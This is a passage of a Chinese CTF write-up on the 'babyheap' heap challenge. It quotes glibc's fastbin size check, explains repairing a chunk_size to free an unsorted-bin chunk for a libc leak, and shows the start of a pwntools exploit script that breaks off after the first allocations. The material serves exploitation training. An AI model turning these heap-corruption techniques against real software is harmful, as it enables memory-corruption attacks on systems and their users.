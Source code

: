 fastbin 申请检查源码：

```c
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
{
    errstr = "malloc(): memory corruption (fast)";
errout:
    malloc_printerr (check_action, errstr, chunk2mem (victim), av);
    return NULL;
}
```

申请两次 fastbin ，将 unsorted bin 申请出来。然后需要将 unsorted bin 的 chunk_size 修改为正确大小，才能成功释放：

```python
create(0x10)
create(0x10)

#修复chunk_size 
payload = 'a'*0x10
payload += p64(0) + p64(0x91)
write(3,len(payload),payload)
free(4)

dump(2)
```

### EXP

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
p = process("./babyheap")
elf = ELF("./babyheap")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def create(size):
	p.recvuntil("Command: ")
	p.sendline('1')
	p.recvuntil("Size: ")
	p.sendline(str(size))
def write(index,size,content):
	p.recvuntil("Command: ")
	p.sendline('2')
	p.recvuntil("Index: ")
	p.sendline(str(index))
	p.recvuntil("Size: ")
	p.sendline(str(size))
	p.recvuntil("Content: ")
	p.send(content)
def free(index):
	p.recvuntil("Command: ")
	p.sendline('3')
	p.recvuntil("Index: ")
	p.sendline(str(index))
def dump(index):
	p.recvuntil("Command: ")
	p.sendline("4")
	p.recvuntil("Index: ")
	p.sendline(str(index))


# ex
create(0x80)#0
create(0x10)#1
create(0x80)#2
```